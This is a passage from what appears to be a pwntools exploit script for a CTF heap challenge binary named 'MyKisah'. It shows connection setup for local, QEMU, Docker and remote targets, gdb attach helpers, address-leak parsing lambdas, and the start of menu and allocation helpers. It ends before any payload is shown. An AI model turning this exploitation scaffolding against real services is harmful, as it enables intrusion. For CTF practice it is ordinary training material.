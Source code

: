 ```python
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./MyKisah"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-gef
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='MyKisah')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {:#x}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         EXPLOITS
# =========================================================
def menu(op):
    sla(": ", str(op).encode())

def alloc(idx, time, snooze, waifu):
    menu(1)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
```